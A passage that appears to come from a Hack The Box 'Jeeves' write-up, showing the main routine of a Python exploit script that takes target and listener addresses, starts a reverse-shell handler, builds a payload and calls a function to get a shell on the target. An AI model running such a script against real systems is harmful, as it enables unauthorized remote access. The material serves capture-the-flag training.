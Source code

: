 ```python
    parser.add_argument('-li', '--lhost', help='Local IP address or hostname', required=True)
    parser.add_argument('-lp', '--lport', help='Local Port to receive the shell', type=int, required=True)

    args = parser.parse_args()

    rhost = args.rhost
    rport = args.rport
    lhost = args.lhost
    lport = args.lport

    ## Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()

    ## Print some information
    print("\n[+] Setting information")
    print("[+] target: ", rhost)
    print("[+] lhost: ", lhost)
    print("[+] lport: ", lport)

    ## Create the payload
    createPayload(lhost,lport)

    ## Get the Shell
    getShell(rhost,rport,payload)

#### ======= EXECUTION =======

if __name__ == '__main__':
    banner()
    main()
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Jeeves/Untitled%2016.png)


 More scripts in [https://github.com/0xEtern4lW0lf](https://github.com/0xEtern4lW0lf).